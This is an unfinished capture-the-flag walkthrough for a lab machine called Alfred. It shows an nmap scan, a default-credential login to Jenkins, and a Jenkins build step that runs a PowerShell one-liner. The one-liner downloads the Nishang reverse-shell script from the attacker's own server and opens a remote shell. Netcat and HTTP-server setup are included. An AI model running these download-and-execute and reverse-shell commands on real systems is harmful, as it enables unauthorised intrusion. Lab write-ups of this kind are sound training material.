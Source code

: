 ***still in the work***


Room: Alfred

Difficulty:

Overview:

------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we need to scan for all open ports using nmap, but since the machine doesn't respond to ping (ICMP) we need to adjust the scan:

nmap  -Pn -A -p- 10.10.101.250 -T4

-Pn   → Because the machine don't respond to ping

-A    → Enable OS detection, version detection, script scanning, and traceroute

-p-   → Scan all ports

-T4   → To speed the scan (this loses some accuracy), otherwise it would take more time to complete.

![Alfred_nmap_scan](https://user-images.githubusercontent.com/76821053/118020693-4ae2cd80-b352-11eb-8f5c-5e8250883d63.png)

The http at port 8080 hosted a jenkins server. We can try default credentials and this one was pretty simple.

![jenkins_8080](https://user-images.githubusercontent.com/76821053/118023732-c8f4a380-b355-11eb-8ea8-ee409d9ddc01.png)

We can created a new project inside Jenkins. At configurations we have a field called Build that let us do commands, so we can use the powershell command given by the room:

**powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port**

In my case i used the below command, where i change the ip and port to match my machine.

**powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.23.202:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.23.202 -Port 9001**

To breakdown this command we can tell that the first part of the command will download a file from a specific website or server, in this case from my kali machine and the 
second part of the command tells the windows machine to execute it in order for us to get a reverse shell.

For this command to work and get a reverse shell on our machine we need to setup a few things:

-- Download Nishang "Invoke-PowerShellTcp.ps1" payload script provided by the room. Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security.

-- A python SimpleHTTPServer in order to host the file to each the remote machine will try to donwload. We can do this by typing this command on a kali machine:

**python -m SimpleHTTPServer**

![pythonserver](https://user-images.githubusercontent.com/76821053/118032170-3fe26a00-b35f-11eb-919e-8483e5469701.png)

-- Start a netcat listener on the port we chose:

![nclistener](https://user-images.githubusercontent.com/76821053/118028995-9c438a80-b35b-11eb-8463-7b4c797b97d2.png)

After setting all up we just start a new project on jenkins server (in my case i called it admin), add the command to the build tab and just run it:   

![jenkinsproject](https://user-images.githubusercontent.com/76821053/118030688-88992380-b35d-11eb-89a6-74a434f02cb0.png)

We can see that the remote machine downloads the script and run it:

![pythonhttpserver](https://user-images.githubusercontent.com/76821053/118028046-85e8ff00-b35a-11eb-8d9c-32d510ae7b57.png)
